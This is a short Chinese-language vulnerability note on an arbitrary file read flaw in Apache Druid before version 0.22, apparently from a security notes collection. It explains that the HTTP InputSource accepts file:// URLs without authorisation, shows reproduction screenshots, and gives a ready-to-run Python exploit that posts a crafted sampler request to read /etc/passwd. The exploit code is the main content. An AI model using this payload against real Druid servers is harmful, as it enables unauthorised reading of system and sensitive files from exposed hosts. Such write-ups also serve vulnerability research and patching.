 ```yaml
---
title: Apache Druid 任意文件读取
date: 2021-11-27 17:24:10
author: sec
---
```

# Apache Druid 任意文件读取

# 漏洞影响版本

`Apache  Druid Version < 0.22`

# 漏洞概述


对用户指定的 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。由于 Apache Druid 默认情况下是缺乏授权认证，攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

# 漏洞复现
![在这里插入图片描述](img/5b631b3ee30e4331bb9bb9eee6c55876.png)

利用file协议来读取文件

![在这里插入图片描述](img/0eadf4e66de949618eae911a50ed49ef.png)
# python exp

读取/etc/passwd

```python
import requests
import json
url = "http://127.0.0.1/druid/indexer/v1/sampler?for=connect"
headers = {
    "Content-Type": "application/json"
}
data = {"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
r = requests.post(url,headers=headers,data=json.dumps(data),timeout=3)
print(r.content.decode())
```


